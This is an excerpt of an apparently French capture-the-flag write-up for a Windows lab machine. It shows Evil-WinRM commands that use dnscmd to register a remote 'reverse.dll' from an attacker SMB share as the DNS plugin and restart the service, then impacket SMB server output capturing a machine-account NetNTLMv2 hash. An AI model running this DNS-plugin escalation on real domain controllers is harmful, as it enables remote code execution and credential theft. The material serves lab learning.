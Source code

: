 
```sh
*Evil-WinRM* PS C:\Users\ryan\Desktop> dnscmd.exe /config /serverlevelplugindll \\10.10.14.16\s\reverse.dll

Registry property serverlevelplugindll successfully reset.
Command completed successfully.

*Evil-WinRM* PS C:\Users\ryan\Desktop> sc.exe \\resolute stop dns

SERVICE_NAME: dns
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 3  STOP_PENDING
                                (STOPPABLE, PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
*Evil-WinRM* PS C:\Users\ryan\Desktop> sc.exe \\resolute start dns

SERVICE_NAME: dns
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 2  START_PENDING
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x7d0
        PID                : 2852
        FLAGS              :
```

Dans ma reponse SMB j'ai

```sh
└─# impacket-smbserver s .
Impacket v0.12.0.dev1+20231114.165227.4b56c18a - Copyright 2023 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.129.234.83,50891)
[*] AUTHENTICATE_MESSAGE (MEGABANK\RESOLUTE$,RESOLUTE)
[*] User RESOLUTE\RESOLUTE$ authenticated successfully
[*] RESOLUTE$::MEGABANK:aaaaaaaaaaaaaaaa:6f2aed880e3265f97f774d17cd91823e:010100000000000000fc2c55a672da01dd45ef7299b62027000000000100100068004d006e006e006300550075006f000300100068004d006e006e006300550075006f00020010006b006e00620050007100430042005700040010006b006e006200500071004300420057000700080000fc2c55a672da0106000400020000000800300030000000000000000000000000400000c918efa0e0a305f7ee9088bbb2d8395849cba59cec72e27efcf319ad41b3b4130a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e00310036000000000000000000
[*] Disconnecting Share(1:IPC$)
```
